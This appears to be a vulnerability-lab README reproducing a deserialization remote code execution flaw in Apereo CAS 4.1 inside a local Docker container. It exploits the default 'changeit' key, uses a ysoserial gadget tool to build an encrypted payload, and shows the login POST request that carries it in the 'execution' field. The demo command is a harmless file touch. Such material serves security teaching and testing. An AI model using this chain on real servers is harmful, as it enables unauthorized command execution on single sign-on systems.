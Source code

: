 # Apereo CAS 4.1 Deserialization RCE Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

Apereo CAS is a enterprise single sign-on system. There is an issue in CAS’s attempts to deserialize objects via the Apache Commons Collections library, which cased a RCE vulnerability.

Reference:

- https://apereo.github.io/2016/04/08/commonsvulndisc/

## Environment Setup

Execute following commands to start an Apereo CAS 4.1.5：

```
docker compose up -d
```

After the Apereo CAS is started, visiting `http://your-ip:8080/cas/login` to see the login page.

## Exploit

The out-of-the-box default configuration of Apereo CAS before 4.1.7, is using a default secret key `changeit`:

```java
public class EncryptedTranscoder implements Transcoder {
    private CipherBean cipherBean;
    private boolean compression = true;

    public EncryptedTranscoder() throws IOException {
        BufferedBlockCipherBean bufferedBlockCipherBean = new BufferedBlockCipherBean();
        bufferedBlockCipherBean.setBlockCipherSpec(new BufferedBlockCipherSpec("AES", "CBC", "PKCS7"));
        bufferedBlockCipherBean.setKeyStore(this.createAndPrepareKeyStore());
        bufferedBlockCipherBean.setKeyAlias("aes128");
        bufferedBlockCipherBean.setKeyPassword("changeit");
        bufferedBlockCipherBean.setNonce(new RBGNonce());
        this.setCipherBean(bufferedBlockCipherBean);
    }

    // ...
```

We can try to use [Apereo-CAS-Attack](https://github.com/vulhub/Apereo-CAS-Attack) to generate a encrypted [ysoserial](https://github.com/frohoff/ysoserial)'s serialized object:

```
java -jar apereo-cas-attack-1.0-SNAPSHOT-all.jar CommonsCollections4 "touch /tmp/success"
```

![](1.png)

Then, intercept and modify the http request from login action of `/cas/login`, put the payload into `execution`'s value:

```
POST /cas/login HTTP/1.1
Host: your-ip
Content-Length: 2287
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://your-ip:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.89 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://your-ip:8080/cas/login
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=24FB4BAAE1A66E8B76D521EE366B3E12; _ga=GA1.1.1139210877.1586367734
Connection: close

username=test&password=test&lt=LT-2-gs2epe7hUYofoq0gI21Cf6WZqMiJyj-cas01.example.org&execution=[payload]&_eventId=submit&submit=LOGIN
```

![](2.png)

Congrats, `touch /tmp/success` has been successfully executed:

![](3.png)
